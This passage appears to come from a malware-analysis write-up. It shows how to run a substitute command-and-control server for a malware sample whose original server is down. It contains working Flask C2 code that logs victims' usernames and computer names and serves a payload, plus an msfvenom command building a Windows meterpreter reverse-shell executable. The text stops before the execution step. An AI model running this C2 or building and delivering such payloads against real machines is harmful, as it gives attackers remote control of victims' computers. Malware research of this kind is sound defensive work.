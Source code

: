 ```python

def payload_is_not_running(data):
    """
    Executed payload is not running
    """
    data = data[8:]
    data = data.split(delim)
    process_name = data[0]
    computer = data[1]
    app.logger.info(f'[{computer}] {process_name} payload is not running')
    return process_name

@app.route('/VcvNbtgRrPopqSD/SzWvcxuer/userlog.php', methods=['GET'])
def checkin():
    os           = request.args.get('OsI')  # Operating System
    username     = request.args.get('user') # Username
    computername = request.args.get('id')   # ComputerName
    app.logger.info(f'[checkin] {os}/{computername}/{username}')
    return f'{computername}{username}"{payload_name}"'

@app.route('/VcvNbtgRrPopqSD/SzWvcxuer/sDeRcEwwQaAsSN.php', methods=['GET'])
def status():
    data = request.args.get('txt')
    if data.startswith(magic_0 + delim):        # Payload is already running
        return payload_is_already_running(data)
    if data.startswith(magic_1 + delim):        # Payload is executing
        return payload_is_executing(data)
    if data.startswith(magic_2 + delim):        # Executed payload is running
        return payload_is_running(data)
    if data.startswith(magic_3 + delim):        # Executed payload is not running
       return payload_is_not_running(data)
    return 'invalid'

@app.route('/VcvNbtgRrPopqSD/WqeC812CCvU/<payload>', methods=['GET'])
def send_payload(payload):
    app.logger.info('sending payload')
    return b'A'*0xf65 + payload_data

app.run(debug=True, host='0.0.0.0', port=80)
```

When a C2 server is down, a great way to control the malware you are debugging is to run your own C2 server. This does come with its own challenges as we need to reverse engineer how the malware handles responses. But at least we are in control now! 🦾

To create our own payload we can do the following.

```bash
msfvenom --platform windows --arch x86 -p windows/meterpreter/reverse_tcp LHOST=<host> LPORT=<port> -f exe -o payload.exe
```

We can now use this to execute our payload by performing the following.
